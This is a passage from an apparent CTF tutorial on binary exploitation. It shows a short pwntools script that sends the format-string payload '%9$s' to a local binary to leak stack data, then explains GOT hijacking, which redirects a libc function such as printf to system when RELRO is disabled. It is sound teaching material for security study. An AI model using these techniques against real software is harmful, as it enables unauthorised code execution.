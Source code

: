 ```python
    sh = process('./goodluck')

payload = "%9$s"

print payload

##gdb.attach(sh)

sh.sendline(payload)

print sh.recv()

sh.interactive()

```



## hijack GOT



### Principle


In the current C program, the functions in libc are all jumped through the GOT table. In addition, the GOT entry corresponding to each libc function can be modified without enabling RELRO protection. Therefore, we can modify the GOT table content of one libc function to the address of another libc function to achieve control of the program. For example, we can modify the contents of the got item of printf to the address of the system function. Thus, the program actually executes the system function when it executes printf.


Suppose we override the address of function A as the address of function B, then this attack technique can be divided into the following steps.


- Determine the GOT table address of function A.

- The function A we used in this step is usually in the program, so we can find it by simply finding the address.


- Determine the memory address of function B


- This step usually requires us to find a way to leak the address of the corresponding function B.


- Write the memory address of function B to the GOT table address of function A.


- This step generally requires us to use the vulnerability of the function to trigger. The general use methods are as follows


- Write function: write function.
- ROP
